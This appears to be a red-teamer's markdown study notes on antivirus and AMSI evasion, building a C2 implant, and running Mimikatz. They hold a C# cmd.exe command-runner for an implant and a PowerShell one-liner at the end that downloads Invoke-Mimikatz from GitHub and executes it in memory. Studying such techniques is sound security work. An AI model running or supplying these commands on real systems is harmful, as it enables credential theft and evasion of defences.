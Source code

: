 # The source from https://pre.empt.dev/posts/bluffy/

UuidFromStringA - 
CLSIDFromString

uses uui and svg and css for static evasion of shellcode

wepaonised here : https://github.com/boku7/Ninja_UUID_Runner - this works with calc

BLuffy : https://github.com/preemptdev/bluffy

can we use uuid for static evasion?

# creating our own C2

from https://pre.empt.dev/posts/maelstrom-an-introduction/

https://docs.google.com/spreadsheets/d/1b4mUxa6cDQuTV2BPC6aA-GR4zGZi0ooPYtBe4IgPsSc/edit#gid=04

There are a ton of design patterns, but we went with MoSCoW as its fairly straight-forward and easy to translate to GitHub tags and milestones:

The term Moscow itself is an acronym derived from the first letter (ish) of each of four prioritization categories: M - Must have, S - Should have, C - Could have, W - Won't have.

ent utility to check the entropy of each file

# writing a C2 implant
simple command intrepreter 

```C#
public void ExecuteCommand(String command)
    {
       Process p = new Process();
       ProcessStartInfo startInfo = new ProcessStartInfo();
       startInfo.FileName = "cmd.exe";
       startInfo.Arguments = @"/c " + command; // cmd.exe spesific implementation
       p.StartInfo = startInfo;
       p.Start();
    }
```

# nice reference for evasion

https://evasions.checkpoint.com/ 

# automatic techniques to bypass amsi
amsi.fail

# invoke-obfuscation - 

https://github.com/danielbohannon/Invoke-Obfuscation


# os shell commands

cmd.exe, Process.Start, ShellExecuteA, WinExec, os.system

cmd.exex is heavily protected

# bypass anti virus run mimikatz

https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

```powershell
powershell "IEX (New-Object Net.WebClient).DownloadString ('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz" 
```













